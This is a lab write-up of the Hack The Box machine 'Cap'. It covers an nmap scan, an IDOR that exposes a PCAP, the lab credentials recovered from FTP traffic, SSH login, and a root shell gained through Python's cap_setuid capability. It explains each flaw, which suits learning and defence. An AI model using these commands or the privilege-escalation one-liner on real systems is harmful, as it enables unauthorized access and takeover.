


# Cap

**Difficulty:** Easy  
**OS:** Linux

---

## Summary

1. Enumerate the target
2. Identify an IDOR over `HTTP`
3. Extract credentials from the leaked PCAP
4. Log in via `SSH`
5. Enumerate Linux capabilities
6. Abuse Python's `CAP_SETUID` capability
7. Gain root access

---

## Solve

### Enumeration

Start with a full TCP scan:

```bash
nmap -sV -sC -p- -A -T5 10.129.99.50
```

- `-sV` : Detect service versions
- `-sC` : Run default NSE scripts
- `-p-` : Scan all 65535 TCP ports
- `-A` : Enable aggressive detection
- `-T5` : Use the fastest Nmap timing profile

```text
PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2

80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
```

The interesting services are:

- `21` -> FTP
- `22` -> SSH
- `80` -> Web application

---

### IDOR

Port `80` hosts a network monitoring application.

Captured network data can be accessed through endpoints such as:

```text
/data/1
/download/1
```

By changing the object identifier from `1` to `0`, we can access another PCAP file that is not exposed through the normal application flow:

```http
GET /download/0 HTTP/1.1
Host: 10.129.99.50
```

This is an `IDOR` because the application allows the user to control the resource identifier without verifying whether they are authorized to access the requested file.

---

### PCAP Analysis

We can now inspect the PCAP downloaded from:

```text
/download/0
```

The capture contains both HTTP and FTP traffic.

FTP is particularly interesting because standard FTP transmits authentication data in cleartext.

Two relevant packets contain the login sequence:

```text
No. 36 -> USER
No. 40 -> PASS
```





The credentials are:

```text
Username: nathan
Password: Buck3tH4TF0RM3!
```

We can reuse them over SSH:

```bash
ssh nathan@10.129.99.50
```

Then retrieve the user flag:

```bash
cat ~/user.txt
```

---

### Privilege Escalation

Enumerate file capabilities:

```bash
getcap -r / 2>/dev/null
```

- `getcap` : Display capabilities assigned to files
- `-r` : Search recursively
- `/` : Start from the filesystem root
- `2>/dev/null` : Hide permission errors

Relevant output:

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The interesting capability is:

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

`CAP_SETUID` allows a process to change its User ID.

Linux capabilities split root privileges into smaller individual permissions instead of giving a process full root access. In this case, assigning `CAP_SETUID` to Python is dangerous because Python can execute arbitrary code and change its UID to `0`, which corresponds to root.

We can verify this with:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("whoami")'
```

Output:

```text
root
```

We can then spawn a root shell:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Finally:

```bash
cat /root/root.txt
```

---

## Notes

### IDOR

The vulnerable Flask route can be found in:

```text
/var/www/html/app.py
```

```python
@app.route("/download/<id>")
def download(id):
    try:
        id = int(id)
    except:
        return redirect("/")

    uploads = os.path.join(app.root_path, "upload")
    return send_from_directory(
        uploads,
        str(id) + ".pcap",
        as_attachment=True
    )
```

The value `<id>` is fully controlled by the user and is directly used to select the PCAP file.

There is no authorization check before returning the requested file.

---

### FTP Authentication

FTP uses TCP port `21` for the control connection.

The basic authentication sequence is:

```text
Client -> USER nathan
Server -> 331 Password required

Client -> PASS Buck3tH4TF0RM3!
Server -> 230 Login successful
```

Because standard FTP does not encrypt the control channel, usernames and passwords can be recovered directly from a packet capture.

---

### Linux Capabilities

Linux capabilities divide root privileges into smaller, more specific permissions.

Examples:

- `CAP_SETUID` -> Change process UIDs
- `CAP_NET_BIND_SERVICE` -> Bind to ports below 1024
- `CAP_NET_RAW` -> Use raw network sockets
- `CAP_SYS_ADMIN` -> Perform powerful system administration operations

Capabilities are useful because they follow the principle of least privilege: a program can receive only the privilege it actually needs.

However, assigning powerful capabilities to general-purpose interpreters is dangerous.

In this machine:

```text
Python + CAP_SETUID -> Arbitrary Python code can become UID 0
```

This makes `/usr/bin/python3.8` a direct privilege escalation vector.

Useful commands:

```bash
getcap -r / 2>/dev/null
```

Search for file capabilities.

```bash
capsh --print
```

Display the current process capability sets.

```bash
setcap <capability>+ep <binary>
```

Assign a capability to a binary.
